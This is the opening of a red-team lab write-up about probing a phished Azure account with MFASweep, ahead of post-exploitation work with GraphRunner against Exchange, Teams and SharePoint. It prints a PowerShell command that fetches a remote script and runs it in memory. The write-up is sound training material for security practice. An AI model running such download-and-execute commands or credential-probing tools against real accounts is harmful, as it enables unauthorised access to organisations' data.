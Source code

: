 ```yaml
---
title: "Loot Exchange, Teams and SharePoint with GraphRunner"
date: 2024-10-04T10:46:06+01:00
tags: [Azure, Red Teaming, Entra-ID, Powershell, MS SQL]
description: "In this lab, We look ino the use of a tool, Graphrunner, a post-exploitation toolset for interacting with the Microsoft Graph API......:D"
---
```


**Note : This article was inspired by content from [Pwned Labs](https://pwnedlabs.io/labs/intro-to-azure-recon-with-bloodhound). Special thanks to Pwned Labs for providing insightful resources and awesome learning experience for learners.**

**Lab Link :** [https://pwnedlabs.io/labs/loot-exchange-teams-sharepoint-with-graphrunner](https://pwnedlabs.io/labs/loot-exchange-teams-sharepoint-with-graphrunner)

> Overview -> Your red team is on an engagement and has successfully phished a Mega Big Tech employee to gain their credentials. So far increasing access within Azure has reached a dead end, and you have been tasked with unlocking further access. In scope is the entire on-premises and cloud infrastructure. Your goal is to gain access to customer records and demonstrate impact.



![](https://i.pinimg.com/originals/dd/80/04/dd8004f0c24c16fa33ed20b7a8d33d21.gif)



We have been given compromised user credentials for this lab:


```
Password: xxxxxxxxxxxxxx 

IAM User: Clara.Miller@megabigtech.com 
```



First step is to check if multi-factor authentication is enforced for this set of account

- We can do this using the [MFASweep](https://github.com/dafthack/MFASweep) PowerShell script
- Then we can load this tool to powershell memory as shown below


```powershell
IEX (iwr 'https://raw.githubusercontent.com/dafthack/MFASweep/master/MFASweep.ps1')
```


we can enumerate the presence of MFA on various online Microsoft services with this script, We can also include a check for Active Directory Federated Services in case it is available.

**ADFS (Active Directory Federation Services)** : A Microsoft service for enabling Single Sign-On (SSO) across applications.

- **Federation**: Links identity providers, allowing users to access external services with internal credentials. e.g., Office 365, cloud applications etc
- **Single Sign-On (SSO)** : Users authenticate once and access multiple applications without re-logging in.
